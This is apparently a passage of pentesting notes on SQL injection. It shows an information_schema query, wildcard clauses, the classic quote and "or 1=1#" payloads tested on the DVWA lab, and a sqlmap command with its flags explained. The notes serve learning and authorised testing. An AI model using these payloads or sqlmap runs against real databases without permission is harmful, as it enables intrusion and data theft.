 ```sql
SELECT table_name from information_schema.tables  where table_schema=database();
```

### Use wildcard

```
where username='%F%'
where username='%F'
having username='A%'
```

### How to test

1. **add **<mark style="color:red;">**`'"`**</mark>
2. <mark style="color:red;">**`" or 1=1#`**</mark>**`   ``|`` `` `**<mark style="color:red;">**`' or 1=1#`**</mark>&#x20;

in DVWA

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### SQLMAP

```sh
sqlmap -r req.txt --dbs --random-agent --risk 3 --level 5 -p username,password
```

\-**`r`   =>**   File name

**`-dbs =>`** Enumerate DBMS databases

**`--level=LEVEL =>`** Level of tests to perform (1-5, default 1)

**`--risk=RISK =>`**     Risk of tests to perform (1-3, default 1)

**`-p`** TESTPARAMETER  Testable parameter(s)
